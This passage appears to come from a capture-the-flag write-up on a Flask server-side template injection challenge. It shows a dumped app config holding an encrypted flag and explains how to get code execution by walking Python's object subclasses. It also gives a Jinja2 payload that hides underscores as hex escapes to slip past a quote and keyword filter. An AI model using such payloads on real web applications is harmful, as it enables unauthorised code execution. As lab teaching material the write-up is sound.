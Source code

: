 ```yml
            'SESSION_COOKIE_DOMAIN': False,
            'SESSION_COOKIE_PATH': None,
            'SESSION_COOKIE_HTTPONLY': True,
            'SESSION_COOKIE_SECURE': False,
            'SESSION_COOKIE_SAMESITE': None,
            'SESSION_REFRESH_EACH_REQUEST': True,
            'MAX_CONTENT_LENGTH': None,
            'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200),
            'TRAP_BAD_REQUEST_ERRORS': None,
            'TRAP_HTTP_EXCEPTIONS': False,
            'EXPLAIN_TEMPLATE_LOADING': False,
            'PREFERRED_URL_SCHEME': 'http',
            'JSON_AS_ASCII': True,
            'JSON_SORT_KEYS': True,
            'JSONIFY_PRETTYPRINT_REGULAR': False,
            'JSONIFY_MIMETYPE': 'application/json',
            'TEMPLATES_AUTO_RELOAD': None,
            'MAX_COOKIE_SIZE': 4093,
            'flag': "C\x1eS\x1dwsef}j\x057i\x7fo{D)'dO,+sutm3F"}>,
            'request': <Request 'http://127.0.0.1:10017/' [POST]>,
            'session': <SecureCookieSession {}>,
            'g': <flask.g of 'app'>
    } of None>
}
```

_Note: be sure to use double-quotes (`"`) as the single ones are blacklisted._

Here we find an encrypted flag again: `'flag': "C\x1eS\x1dwsef}j\x057i\x7fo{D)'dO,+sutm3F"`

## Decrypting the flag

Just like [yesterday's challenge]({{% ref "posts/adventofctf/challenge_16.md" %}}), the flag is encrypted and we probably have to get the source again to get the key used to encrypt the flag. To get the source we first need arbitrary code execution.

### Arbitrary Code Execution (ACE)

Unfortunately, we cannot grab the `os` module using the same method as yesterday as it requirers the config class and we cannot easily get it. This means we have to find another way.

Another common trick to get the code execution is by having a look at the subclasses of the `object` class. We can get it by taking the following path: `''.__class__.__mro__[1].__subclasses__()`. This gets the class of `string`, reads it superclasses by getting `__mro__`, gets the `object` class from index `1` and then reads its superclasses by using the `__subclasses__()` method.

To get the subclasses, we first have to convert `''.__class__.__mro__[1].__subclasses__()` to an acceptable input. This becomes:

```text
{{ [""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fmro\x5f\x5f")][0][1]|attr("\x5f\x5fsubclasses\x5f\x5f")() }}
```

